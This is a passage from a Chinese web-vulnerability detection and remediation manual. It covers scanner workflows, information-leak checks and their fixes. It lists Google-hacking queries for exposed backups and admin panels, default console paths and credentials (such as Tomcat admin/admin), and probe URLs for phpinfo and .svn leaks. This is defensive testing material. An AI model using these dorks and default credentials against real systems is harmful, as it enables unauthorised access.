   版本

| **版本号** | **变化状态** | **简要说明** | **日期** | **变更人**  | **批准日期** | **批准人** |
| ---------- | ------------ | ------------ | -------- | ----------- | ------------ | ---------- |
| V1.0       | 创建         | 创建         | 2020-09  | 汤同喜        |              |            |

目  录 Table of Contents

1、Web安全漏洞检测中名词

2、Web漏洞检测图

3、Web漏洞检测项

4 Web安全漏洞检测与修复

4.1 自动化Web漏洞扫描工具检测	

	4.1.1 AppScan application扫描测试
	
	4.1.2 Acunetix Web Vulnerability
	
	4.1.3 Web服务器版本信息收集
	
	4.1.4 搜索引擎信息收集

4.2 信息泄漏类

	4.2.1 目录浏览
	4.2.2 Web服务器控制台地址泄漏
	
	4.2.3 PHPInfo()信息泄漏
	
	4.2.4 POODLE信息泄露漏洞
	
	4.2.5 .SVN信息泄露
	
	4.2.6 备份文件泄漏
	
	4.2.7 内网IP地址泄漏	
	
	4.2.8 Cookie信息泄露	
	
	4.2.9 异常信息泄露	
	
	4.2.10 敏感信息泄露	
	
	4.2.11 IIS短文件名泄露#	
	
	4.2.12 Robots文件信息泄露

4.3 组件类

	4.3.1 脆弱的SSL加密算法
	
	4.3.2 TLS1/SSLv3 重协商漏洞

4.4 认证和授权类

	4.4.1 密码明文传输
	
	4.4.2 用户名可枚举
	
	4.4.3 暴力攻击
	
	4.4.4 会话标识未更新	
	
	4.4.5 未授权访问	
	
	4.4.6 文件上传漏洞
	
	4.4.7 任意文件下载
	
	4.4.8 越权访问

4.5 命令执行类

	4.5.1 Struts2 远程命令执行
	
	4.5.2 Jboss远程代码执行
	
	4.5.3 HTTP.sys远程代码执行漏洞
	
	4.5.4 文件包含

4.6 逻辑攻击类

	4.6.1 验证码功能缺陷
	
	4.6.2 并发漏洞
	
	4.6.3 慢速攻击
	
	4.6.4 短信攻击

4.7 注入攻击类

	4.7.1 SQL注入
	
	4.7.2 XML注入
	
	4.7.3 CRLF注入
	
	4.7.4 XFF注入
	
	4.7.5 XPATH 注入	
	
	4.7.6 命令注入
	
	4.7.7 链接或框架注入
	
	4.7.8 Json hijacking/Json劫持注入
	
	4.7.9 宽字节注入

4.8 客户端攻击类

	4.8.1 XSS跨站脚本攻击漏洞
	
	4.8.2 跨站伪造请求（CSRF）
	
	4.8.3 不安全的HTTP方法

4.9 其他	

	4.9.1 跨域访问漏洞
	
	4.9.2 URL重定向	
	
	4.9.3 DNS域传送漏洞	
	
	4.9.4 Web服务器多余端口开放	
	
	4.9.5 PHP multipart/form-data 远程DOS漏洞	
	
	4.9.6 HTTP Host头攻击#	
	
	4.9.7 SSRF攻击#	
	
	4.9.8 Web服务器解析漏洞#	

5 附录	
5.1 Web常见检测工具	

5.2 Struts 2 漏洞利用poc：	

5.3 Jboss1.0.0漏洞利用EXP	

# 1、Web安全漏洞检测中名词 #

## 缩略语清单 ##

缩略语	全称

CRLF	回车换行

LDAP	Lightweight Directory Access Protocol 轻量级目录访问协议
XFF	X-Forwarded-for头

SessionID	标志会话的ID

Web Service	Web服务是一种面向服务的架构的技术，通过标准的Web协议提供服务，目的是保证不同平台的应用服务可以互操作。

SOAP	Simple Object Access Protocol 简单对象访问协议

XSS	Cross Site Script 跨站脚本

SSL	(Secure Sockets Layer 安全套接层),

TLS	继任者传输层安全（Transport Layer Security，

XML	可扩展标记语言(Extensible Markup Language)

XPATH	XML路径语言(Xml Path Language)

AWVS	Acunetix Web Vulnerability Scanner

POODLE漏洞	(Padding Oracle On Downloaded Legacy 

Encryption vulnerability)

SVN	Subversion的简称，是一个开放源代码的版本控制系统
。。。	。。。。。。
	

# 2、Web漏洞检测图 #
在检测web漏洞方面，主要包括主动模式和被动模式两种。在被动模式中，测试人员尽可能的了解应用逻辑：比如用工具分析所有的HTTP请求及响应，以便测试人员掌握应用程序所有的接入点（包括HTTP头，参数，cookies等）；在主动模式中，测试人员试图以黑客的身份来对应用及其系统、后台等进行渗透测试，其可能造成的影响主要是数据破坏、拒绝服务等。一般检测人员需要先熟悉目标系统，即被动模式下的测试，然后再开展进一步的分析，即主动模式下的测试。主动测试会与被测目标进行直接的数据交互，而被动测试不需要。



# 3、Web漏洞检测项 #
针对web的安全问题，建议通过以下相关的检查点，来进行对web系统的测试，以避免发生安全问题，下面的安全漏洞检测点可供参考。

检查内容描述

	1	收集web相关信息，开放端口信息，服务信息等。
	2	严禁增/删/改防火墙iptables，私自开通高危端口
	3	检查Flash跨域策略文件crossdomain.xml是否合法。
	4	检查是否有CSRF漏洞,(根据系统条件进行检测)
	5	信息泄露漏洞安全性检查（例如test.cgi、phpinfo.php、info.pho、.svn/entries、HTTP认证泄漏漏洞、管理后台泄漏漏洞、内网信息泄漏漏洞、错误详情信息泄漏等）。
	6	检查是否有XSS漏洞（不合法的参数不能在页面原样返回，特别是openid/openkey）  
	7	检查是否泄漏后台默认文件漏洞
	8	检查Flash跨域策略文件的安全性。避免Flash注入javascript或者actionscript脚本在浏览器或者flash中执行跨站攻击。
	9	Cookie安全性检查
	10	检查是否有跳转漏洞。
	11	检查是否有Header注入漏洞。
	12	检查是否有源代码泄漏漏洞或者备份文件  
	13	检查是否有Frame-proxy攻击漏洞。
	14	检查是否有SQL注入攻击漏洞。
	15	检查是否有并发漏洞。
	16	敏感信息检查。应用需要对可能造成客户的敏感内容，以及用户生成内容（UGC，由用户发表的言论）进行检查和过滤。
	17	检查通过WEB页面发起的临时会话窗口的所有显示内容。
	18	目录浏览漏洞安全性检查  
	19	检查是否泄漏员工电子邮箱漏洞以及分机号码。  
	20	查看是否有验证码机制，以及验证码机制是否完善
	21	检查用户名是否可进行枚举。
	22	检测网站路径中是否存在robots.txt
	23	检查是否部署了Web服务器的控制台，控制台是否存在默认帐号、口令，是否存在弱口令。
	24	检查网站目录是否可列
	25	检测目标认证系统是否存在绕过的可能，未授权访问等。
	26	检测网站登录后修改密码是否存在缺陷
	27	检测Web程序在处理登录过程中用户名和口令的传输是否采用了加密传输的机制
	28	检测弱口令，web控制台，数据库，ftp，ssh，telnet，操作系统等。
	29	检测是否提供注销登陆功能，或者退出后session自动失效
	30	检测是否存在浏览器窗口闲置超时后需重新登录的机制
	31	检测页面中是否存在的横向越权操作
	32	检测应用中存在的URL是否存在纵向越权操作
	33	检测是否存在任意文件上传漏洞，并且是否可以解析相关木马文件
	34	检测是否存在任意下载，遍历下载系统或者web内的文件
	35	检测Web网站在处理用户提交的不存在的URL时会返回错误信息，是否可通过返回的错误信息来确认有敏感信息的泄漏问题。
	36	检测是否存在遗留的测试页面
	37	检测是否会在本地存储不安全的敏感文件。
	38	检测是否存在命令执行漏洞
	39	检测逻辑上的安全问题，是否存在篡改，
	40	检测是否可通过搜索引擎进行信息收集
	

# 4、Web安全漏洞检测与修复 #

## 4.1自动化Web漏洞扫描工具检测 ##

自动化扫描工具只能检测到部分常见的漏洞（如跨站脚本、SQL注入等），不是针对用户代码的，也就是说不能理解业务逻辑，无法对这些漏洞做进一步业务上的判断。往往最严重的安全问题并不是常见的漏洞，而是通过这些漏洞针对业务逻辑和应用的攻击。

Web目前分为application和Web service两部分。Application指通常意义上的Web应用，而Web service是一种面向服务的架构的技术，通过标准的Web协议（如HTTP、XML、SOAP、WSDL）提供服务。

### 4.1.1AppScan application扫描测试  ###

	#### 测试名称 ####
	AppScan application 扫描测试
	测试目的
	利用自动化的Web安全扫描工具AppScan进行扫描，以发现Web应用中存在的常见漏洞
	测试条件
	已知Web服务器域名或IP地址Web业务运行正常 测试用机上安装了AppScan
	测试步骤
	AppScan application扫描测试
	1、双击运行AppScan，选择file—new新建扫描，选择扫描模板default
	2、弹出扫描配置对话框，选择扫描类型，默认为Web Application Scan，点击next
	3、在Starting URL中填入需扫描的目标服务器域名或IP地址，其他配置不需修改，点击next。
	4、选择No Login，点击next
	5、不需修改任何参数，点击next
	6、不需修改参数，选择Start a full automatic scan，点击finish完成配置，开始扫描
	7、扫描完成，保存扫描结果，并对结果进行分析

	AppScan Web Service
	1、双击运行AppScan，选择file—new新建扫描，选择扫描模板default
	2、弹出扫描配置对话框，选择扫描类型，默认为Web Service Scan，点击next
	3、在Starting URL中填入需扫描的目标服务器域名或IP地址，其他配置不需修改，点击next
	4、不需修改任何参数，点击next
	5、不需修改任何参数，点击Finish完成配置，开始扫描
	扫描完成，保存扫描结果，并对结果进行分析
	备注：
	注意：扫描工具的执行对被测系统的性能影响比较大，而且可能导致一些垃圾数据，建议只在测试环境执行。
	由于自动化工具在很多情况下只是提示一种漏洞存在的可能，因此需要对所有的结果进行人工的分析判断。分析过程参考以下章节的测试项，使用辅助工具或者是手动验证。
	业界常用的自动化扫描工具还有WebInspcet，NStalker，Acunetix Web Vulnerability Scanner。在有条件的情况下，可以综合使用。
### 4.1.2Acunetix Web Vulnerability ###
	测试名称
	Acunetix Web Vulnerability 扫描测试
	测试目的
	利用自动化的Web安全扫描工具Acunetix Web Vulnerability进行扫描，以发现Web应用中存在的常见漏洞
	测试条件
	1.已知Web服务器域名或IP地址
	2.Web业务运行正常
	3.测试用机上安装了Acunetix Web Vulnerability
	测试步骤	

	Acunetix Web Vulnerability扫描测试

	1.双击运行Acunetix Web Vulnerability，选择new scan新建扫描，添加scan type
	2.弹出扫描配置对话框，填入需扫描的目标服务器域名或IP地址，其他配置不需修改，点击next，选择扫描模板default。
	3.选择No Login，或者new Login,点击next
	4.不需修改任何参数，点击next
	5.不需修改参数，点击finish完成配置，开始扫描
	6.扫描完成，保存扫描结果，并对结果进行分析。

	备注：
	注意：扫描工具的执行对被测系统的性能影响比较大，而且可能导致一些垃圾数据，建议只在测试环境执行。
	由于自动化工具在很多情况下只是提示一种漏洞存在的可能，因此需要对所有的结果进行人工的分析判断。分析过程参考以下章节的测试项，使用辅助工具或者是手动验证。
	业界常用的自动化扫描工具还有WebInspcet，NStalker，netspker, w3af GUI、NETSPARKER、IronWASP。在有条件的情况下，可以综合使用。
### 4.1.3Web服务器版本信息收集 ###
	测试名称
	Web服务器版本信息收集
	测试目的
	一些情况下，Web服务器能通过隐藏或者修改banner信息的方式防止黑客攻击。这时候我们需要使用不依靠服务器Server标题头的扫描方式进行服务器类型、版本判断。
	测试条件
	1.Web业务运行正常
	2.已知Web服务器域名或IP地址
	3.测试用机安装了httprint（Windows环境）
	测试步骤
	1.运行Httprint_gui.exe
	2.在Host列中输入主机域名（如果没有域名则输入IP地址），在端口列中输入端口号。如果为HTTPS则要选择锁图标下面的选择框。



	3.点击程序下方的运行按钮



	4.观察程序输出的结果

### 4.1.4搜索引擎信息收集 ###
	Google是一款功能强大的搜索引擎，能够根据robots协议抓取互联网上几乎所有页面，其中包括大量账号密码等敏感信息。GHDB（Google Hacking Database）存放了大量敏感信息，Google Hacking是指利用Google等搜索引擎搜索信息来进行入侵的技术和行为，攻击者利用搜索引擎高级指令能够轻松获取指定的敏感信息。以下是利用GHDB结合搜索引擎高级指令进行敏感信息获取的对应表：
	搜索特殊的文件后缀
	在此过程中，测试人员会对域进行如下内容的搜索：
	搜索内容	说明
	site:test.com inurl:jsp.bak	搜索站点中是否存在后缀为jsp.bak的文件，即，某些jsp的备份文件。
	site:test.com filetype:sql	搜索站点中是否存在SQL脚本文件
	site:test.com inurl:log	搜索站点中是否存在应用程序日志文件，如ftp日志、oracle日志等
	site:test.com filetype:txt	查找站点中是否有包含敏感信息的txt文件
	site:test.com filetype:conf	查找站点中是否有包含敏感信息的conf文件
	查找第三方组件或程序
	在此过程中，测试人员对域进行如下内容的搜索：
	搜索内容	说明
	site: test.com inurl:/fckeditor/	搜索站点是否使用了fckeditor
	site: test.com inurl:ewebeditor	搜索站点是否使用了 ewebeditor
	搜索错误的配置
	在此过程中，测试人员会对域进行如下内容的搜索：
	搜索内容	说明
	site: test.com intitle:”index of /”	搜索站点是否使用了列目录功能
	site: test.com inurl:"examples"	搜索站点中是否存在测试代码
	搜索管理后台
	在此过程中，测试人员会对域进行如下内容的搜索：
	搜索内容	说明
	site: test.com inurl:admin
	site: test.com inurl:login
	site: test.com inurl:manage
	site: test.com inurl:system
	site: test.com inurl:console	搜索站点是否对外开放了管理后台

## 4.2信息泄漏类 ##
泄露出的敏感信息包括但不限于：数据库连接地址、帐号和口令等信息、服务器系统信息、Web服务器软件名称、版本、Web网站路径、除html之外的源代码、业务敏感数据等。

### 4.2.1目录浏览 ###
	漏洞名称	
	目录浏览，网站目录可列， index of遍历
	漏洞描述	
	目录浏览漏洞是由于网站存在配置缺陷，存在目录可浏览漏洞，这会导致网站很多隐私文件与目录泄露，比如数据库备份文件、配置文件等，攻击者利用该信息可以更容易得到网站权限，导致网站被黑。 风险：攻击者通过访问网站某一目录时，该目录没有默认首页文件或没有正确设置默认首页文件，将会把整个目录结构列出来，将网站结构完全暴露给攻击者； 攻击者可能通过浏览目录结构，访问到某些隐秘文件（如PHPINFO文件、服务器探针文件、网站管理员后台访问地址、数据库连接文件等）。
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	Web业务运行正常
	已知目标网站的域名或IP地址
	检测方法	
	可以利用web漏洞扫描器扫描web应用进行检测，也可通过搜索，网站标题包含“index of”关键词的网站进行访问。
	修复方案	
	目前存在该漏洞的常见中间件为apache和IIS,一下列出其相关的修复方式：
	1、IIS中关闭目录浏览功能：在IIS的网站属性中，勾去“目录浏览”选项，重启IIS。 
	2、Apache中关闭目录浏览功能：打开Apache配置文件httpd.conf，查找“Options Indexes FollowSymLinks”，修改为“ Options -Indexes”(减号表示取消，保存退出，重启Apache。 
	3、Nginx中默认不会开启目录浏览功能，若您发现当前已开启该功能，可以编辑nginx.conf文件，删除如下两行：autoindex on;autoindex_exact_size on;重启Nginx。
	其他说明	
### 4.2.2Web服务器控制台地址泄漏 ###
	漏洞名称	
	Web容器控制台地址泄漏、中间件控制台地址泄漏、web服务器控制台地址泄漏、
	漏洞描述	
	Web 控制台是一种基于 Web 的用户界面， 其常常被用于网站后台或者web容器控制台中，其不仅仅局限于容器或者网站管理后台，还包括一些数据库默认地址等。在web安全中，网站系统在泄漏其web容器（中间件）或者数据库的控制台后，存在增加被入侵的风险。常见的web控制台包括以下多种：tomcat、aria2、weblogic、websphere、oracle、jboss、等。这些web的容器控制台常见访问形式：http://hostname:port/load/，例如：http://x.x.x.x:8080/manage/。
	危害等级（参考）
	中危，可被利用后可以为高危
	检测条件	
	已知Web网站具有中间件控制台页面。
	检测方法	
	常见的web控制台检测方法：整体思路为首先需识别网站容器的指纹，判断其所采用的中间件，然后去扫描其所开放的端口，根据开放端口信息和常见固定的路径，去判断其控制台地址。以下列举常见集中的检测方法：
	1、Apache+tomcat：tomcat常见的web控制台地址为：http://x.x.x.x/manager/html或者添加端口：http://x.x.x.x:8080/manager/html，从TOMCAT5（开始默认/admin后台不存在，tomcat5之前的控制台为/admin。
	2、Weblogic控制台：http://[weblogic所在机器IP]:[weblogic端口]/console若没有指定端口，且安装在本机上则为：（weblogic默认端口为7001）http://localhost:7001/console。
	3、Websphere控制台：websphere的控制台常见有两种，一种是基于http，另一种是基于https的，分别为如下：http://localhost:9060/ibm/console和https://localhost:9043/ibm/console/logon.jsp。
	4、Oracle web控制台：一般默认的是http://localhost:5500/em,一般存放于Oracle安装文件夹下的install文件夹下中文本文件，上面有web控制台的地址。
	5、Mongodb web控制台：自带了Web控制台：默认和数据服务一同开启。他的端口在Mongodb数据库服务器端口的基础上加1000，如果是默认的Mongodb数据服务端口(Which is 27017)，则相应的Web端口为28017，这个页面可以看到当前Mongodb的所有连接、各个数据库和Collection的访问统计，包括：Reads, Writes, Queries, GetMores ,Inserts, Updates, Removes、写锁的状态、以及日志文件的最后几百行（CentOS+10gen yum 安装的mongodb默认的日志文件位于/var/log/mongo/mongod.log)。
	6、HP system managent控制台：该控制台一般默认的端口为2381，可在其后添加路径/cpqlogin.php?errno=100&severity=4，即可访问.https://localhost:2381/cpqlogin.php?errno=100&severity=4
	7、Service Registry 3控制台：在 Web 浏览器中键入以下 URL：http://hostname:port/soar/例如：http://localhost:6060/soar/如果系统中安装了 Registry，则 hostname 为 localhost。如果系统中尚未安装 Registry，请使用安装了 Registry 的系统的名称。port 的值通常为 6060，除非发生端口冲突。
	Tomcat控制台URL：http://www.exmaple.com/manager/html
	Tomcat控制台默认帐号admin，默认密码admin或空
	Jboss控制台URL：http://www.exmaple.com/jmx-console/
	Jboss控制台URL：http://www.exmaple.com/web-console/
	Jboss控制台默认无须登陆，或者admin/admin
	WebSphere控制台URL：http://www.exmaple.com/ibm/console/logon.jsp
	WebSphere默认帐号admin，默认密码admin
	Apache控制台URL：http://www.exmaple.com/server-status
	Axis2控制台URL：http://www.exmaple.com/axis2-admin/
	Axis2控制台默认口令帐户：admin/axis2
	iSAP控制台URL：http://www.exmaple.com/admin/login.jsp
	iSAP控制台默认的帐号和密码：admin/admin
	“普元”管理控制台URL：http://www.exmaple.com/eosmgr/
	“普元”管理控制台默认的帐号和密码：sysadmin/000000
	修复方案	
	默认的web容器控制台泄漏于网络中，常常可被利用，进行对web系统的攻击，一旦进入这些控制台后，可对网站进行任意的部署，中断服务等危险行为，建议从以下几点出发，修复有关控制台地址泄漏的问题：
	1、对于必须暴露于公网或者其他网络中的控制台地址，则为其地址做访问白名单措施，即只允许白名单以内的用户IP地址可以访问到该控制台，通过过滤器（filter）实现：
	1、创建客户端IP过滤器ClientIpFilter
	package com.huawei.filters;
	import java.io.IOException;
	import javax.servlet.FilterChain;
	import javax.servlet.ServletRequest;
	import javax.servlet.ServletResponse;
	import javax.servlet.Filter;
	import javax.servlet.ServletException;
	import javax.servlet.FilterConfig;
	public class ClientIpFilter implements Filter
	{
	    protected FilterConfig filterConfig;
	    private String whiteIPlist[] = null;
	    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain)
	        throws IOException, ServletException
	    {
	        String clientIP = req.getRemoteAddr();        
	        if(IsIPinWhitelist(clientIP))
			{
			 	//验证成功，继续处理
				//System.out.println(clientIP+"调用Web Service，IP鉴权通过");
				chain.doFilter(req,res);		
			}		
			else
			{
				//验证不成功，禁止用户调用该服务。
				System.out.println(clientIP+"调用Web Service，IP鉴权不通过");
			 	//throw new ServletException(clientIP + "无权限访问Web Service！");
			}
	    }    
		private boolean IsIPinWhitelist(String remoteIPAddress)
		{
			for(int i = 0; i < this.whiteIPlist.length; i++)
	        {
				String strIP = this.whiteIPlist[i];
				if(strIP.equals(remoteIPAddress))
				{
					return true;
				}
	        }		
			return false;
		}
		public void setFilterConfig(FilterConfig filterConfig)
	    {
	        this.filterConfig = filterConfig;
	    }
	    public void destroy()
	    {
	        filterConfig = null;
	    }
	    public void init(FilterConfig config)
	        throws ServletException
	    {
	        this.filterConfig = config;
	        String IPs = config.getInitParameter("IPList");
	        this.whiteIPlist = IPs.split(",");
	    }
	}
	2、在web.xml中部署过滤器ClientIpFilter
	在对应的web.xml文件的</web-app>前增加以下内容，其中蓝色部分为需要根据实际情况配置的IP地址白名单（也就是允许访问相应Web模块的客户端IP地址列表），IP地址间通过逗号隔开，不允许有空格；其中红色部分为需要根据实际情况配置的Web目录。参考代码：
	<filter>
		   <filter-name>ClientIpFilter</filter-name>
		   <filter-class>com.huawei.filters.ClientIpFilter</filter-class>
			 <init-param>
			   <param-name>IPList</param-name>
			   <param-value>192.168.1.11,192.168.2.22,10.70.107.119</param-value>
			 </init-param>
		</filter>
		<filter-mapping>
		   <filter-name>ClientIpFilter</filter-name>
		   <url-pattern>/WebService/*</url-pattern>
		</filter-mapping>
	2、修改控制台默认的用户名和名吗，并为其控制台设置强壮的口令措施，防止可被恶意或简单猜解得到用户名和密码。
	3、修改web容器控制台的默认端口，默认路径，避免可被直接利用，访问得到地址。
	4、例如：tomcat的修复方式：禁止别人访问tomcat主页，环境：tomcat 6.0 ；步骤1：在server.xml中 <Host name="localhost" appBase="webapps"修改改webapps为xxxxxx（自己设置的路径）；步骤2：在tomcat-users.xml中 ：<user name="admin" password="xxxx" roles="admin,manager" /> 更改用户名和密码(需强壮)。
	其他说明	需补充其他中间件控制台，待更新

### 4.2.3PHPInfo()信息泄漏 ###
	漏洞名称	
	PHPInfo信息泄漏、phpinfo()函数信息泄漏
	漏洞描述	
	phpinfo()函数返回的信息中包含了服务器的配置信息，包括：1）PHP编译选项以及文件扩展名的相关信息；2）php的版本信息 3）php的配置信息；4）数据库信息；等敏感信息。这些敏感信息会帮助攻击者展开进一步的攻击。
	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件	
	被测网站web服务正常
	采用PHP中间件架构的网站。
	检测方法	
	如果网站存在该漏洞，则通常通过web扫描工具进行扫描可得到链接。 
	1、手工构造网站url，类似http://127.0.0.1/index.php?cmd=phpinfo();或者http://127.0.0.1/phpinfo.php直接访问：：
	修复方案	
	建议限制此类脚本的访问权限或者删除对phpinfo()函数的调用：修改php.ini文件中的disable_functions配置项，把“phpinfo”添加到清单中：disable_functions=phpinfo
	备注：如果要禁用多个函数，函数名之间用逗号隔开
### 4.2.4POODLE信息泄露漏洞 ###
	漏洞名称	
	POODLE信息泄露漏洞
	漏洞描述	
	由于SSL 3.0使用的CBC块加密的实现存在漏洞，攻击者可以成功破解SSL连接的加密信息，比如获取用户cookie数据。这种攻击被称为POODL攻击(Padding Oracle On Downgraded Legacy Encryption)。此漏洞影响绝大多数SSL服务器和客户端，影响范围广泛。但攻击者如要利用成功，需要能够控制客户端和服务器之间的数据(执行中间人攻击)。简单来说：Poodle攻击的原理，就是黑客故意制造安全协议连接失败的情况，触发浏览器的降级使用 SSL 3.0，然后使用特殊的手段，从 SSL 3.0 覆盖的安全连接下提取到一定字节长度的隐私信息。
	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件	
	被测网站web服务正常
	1、网站采用了SSLV3.0协议。
	1、检测方法	通过客户自助门户系统进行检测，参考链接：https://portal.test.com/vulnerability/list/，找到对应的漏洞检测模块，输入相关信息，进行检测，如图所示：

	修复方案	
	建议您手动关闭客户端SSLv3支持；或者关闭服务器SSLv3支持；或者两者全部关闭，即可有效防范Poodle漏洞对您造成的影响。常见修复方案如下：目前常用浏览器只有IE 6.0仍然不支持TLS 1.0，禁用SSL 3.0协议将影响IE 6客户的SSL访问。服务端禁用方法：
	1、Apache 2.x:在mod_ssl配置文件中使用如下命令禁用SSLv2和SSLv3：SSLProtocol All -SSLv2 -SSLv3，重启Apache。
	2、Nginx:在配置文件中使用：ssl_protocols TLSv1 TLSv1.1 TLSv1.2;重启Nginx
	3、IIS:查找如下注册表项：HKey_Local_Machine\System\CurrentControlSet\Control\SecurityProviders \SCHANNEL\Protocols该注册表项通常包含以下子项：* PCT 1.0、 * SSL 2.0、 * SSL 3.0、* TLS 1.0每个注册表项都保留适用于该项的协议相关信息。可以在服务器上禁用这些协议中的任一种。为此，请在协议SSL 3.0的服务器子项中创建一个新的DWORD值。将DWORD值设置为“00 00 00 00”。
	4、浏览器禁用方法：IE:"工具" -> "Internet 选项" -> "高级" ，取消"使用 SSL 3.0"的复选框。
	5、Chrome:复制一个平时打开 Chrome 浏览器的快捷方式，在新的快捷方式上右键点击，进入属性，在"目标"后面的空格中字段的末尾输入以下命令 --ssl-version-min=tls1
	6、FireFox:在地址栏输入"about:config"，然后将 security.tls.version.min 调至 1。
	其他说明	
### 4.2.5.SVN信息泄露 ###
	漏洞名称	
	.SVN信息泄露、版本管理工具文件信息泄漏
	漏洞描述	
	据介绍，SVN（subversion）是程序员常用的源代码版本管理软件。一旦网站出现SVN漏洞，其危害远比SQL注入等其它常见网站漏洞更为致命，因为黑客获取到网站源代码后，一方面是掠夺了网站的技术知识资产，另一方面，黑客还可通过源代码分析其它安全漏洞，从而对网站服务器及用户数据造成持续威胁。更严重的问题在于，SVN产生的.svn目录下还包含了以.svn-base结尾的源代码文件副本（低版本SVN具体路径为text-base目录，高版本SVN为pristine目录），如果服务器没有对此类后缀做解析，黑客则可以直接获得文件源代码。
	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件	
	1、被测网站采用SVN（subversion）源代码版本管理软件。
	检测方法	
	访问http://[ip]/CVS/Entriesp 以及http://[ip]/.svn/entriesp看是否成功，也可以自行构造，根据显示的主目录去逐级访问并遍历相关的目录和文件。
	利用web漏洞扫描工具进行检测。
	修复方案	
	删除SVN各目录下的.svn目录；删除CVS的CVS目录。或者对URL中进行过滤，过滤相关svn等相关敏感字符：
	location ~ ^(.*)\/\.svn\/
	{
	return 404;
	}
		
### 4.2.6备份文件泄漏 ###
	漏洞名称	
	备份文件泄漏
	漏洞描述	
	备份文件泄露，在web服务中，尝尝不局限于网站的源代码泄露，网站的数据库备份文件，以及上传的敏感文件，或者一切正常备份，原则不允许访问的文件可被通过访问web路径进行下载得到，造成其信息泄露。有效的帮助攻击者理解网站应用逻辑， 为展开其他类型的攻击提供 有利信息，降低攻击的难度，可以进一步获取其他敏感数据。
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	Web业务运行正常。
	1、存在可通过构造路径，将备份文件下载出来。
	1、检测方法	常见检测方法是通过对网站进行web漏洞扫描，直接利用爬虫来爬取网站可能存在的路径以及链接，如果存在备份文件，则可通过web直接进行下载。
	2、也可以通过自行构造字典，对网站某一目录下，指定字典进行爆破，常见的扫描工具有wwwscan、御剑后台扫描工具等。
	修复方案	
	网站管理员严格检查web中可访问的路径下是否存在备份文件，常见备份文件后缀为.jsp.bak、.bak、.sql、.txt、等等。如果有这些文件，直接将该备份文件进行转移到其他目录或者直接删除即可。
	1、严格控制可网站可访问目录下的文件敏感度的存放问题，不要将敏感文件置于该目录。
	其他说明	
### 4.2.7内网IP地址泄漏 ###
	漏洞名称	
	内网IP地址泄漏
	漏洞描述	
	网站的内部IP地址，常常被攻击者通过信息收集，得到其内网的IP地址，对于渗透攻击，打下良好基础，如内网Ip地址段，IP路由等等。常见的泄露内网IP的web容器有IIS。
	检测条件	
	Web业务运行正常
	危害等级（参考）
	低危，可被利用后可以为中危
	检测方法	
	可通过web漏洞扫描工具进行扫描，可能会得到内部IP地址。
	1、可以通过手工查看网站中网页的源代码，以及查看源代码注释等，或者通过数据传输中截断，查看其回显信息中，是否包含内网的IP地址。如果包含，则认为存在该漏洞。
	修复方案	
	建议采用以下方式进行修复：
	1、建议开发人员不要在源代码中注释中包含有内网IP。
	2、删除携带内网IP地址的页面，并制定完善的安全编码策略，并且及时检查存在的页面代码是否包含内部IP地址问题。
	3、加强编程人员良好的安全编码意识，系统地学习安全编码的知识，减少源代码泄露的风险。
